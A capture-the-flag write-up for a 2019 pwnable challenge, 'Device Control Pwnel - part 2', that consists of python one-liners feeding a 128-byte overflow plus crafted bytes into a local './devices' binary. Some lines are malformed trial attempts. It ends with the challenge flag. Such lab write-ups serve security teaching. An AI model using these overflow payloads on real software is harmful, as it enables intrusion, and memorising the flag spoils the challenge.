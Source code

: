## Device Control Pwnel - part 2

**Categories:** 2019, pwnable
**Points:** 150
**Description:**

>  The Device Control Pwnel challenge
>  contains another flag; this is the place to turn it into points.
>  


## Write-up

python -c 'print("2\n" + "name\n" + "A"*128+"\LL\af\7d\ab\c1\33\ca\00\81\n" + "1\n")' | ./devices

python -c 'print("2\n" + "name\n" + "A"*128+ bytes.fromhex("LLaf7dabc133ca0081") +"\n" + "1\n")' | ./devices

python -c 'print("2\n" + "name\n" + "A"*128+"a\n" + "1\n")' | ./devices

python -c 'print("2\n" + "name\n" + "A"*128+"\xaf\x7d\xab\xc1\x33\xca\x00\x81\n" + "1")' | ./devices

python -c 'print("2\n" + "name\n" + "A"*128+"1234567\x81\n" + "3\n1\n" + "name\n" + "A"*128+"\xaf\x7d\xab\xc1\x33\xca\x00\n" + "1\n4")' | ./devices

NIXU{h0w_t0_d3al_w1th_null_byt3s\x00}
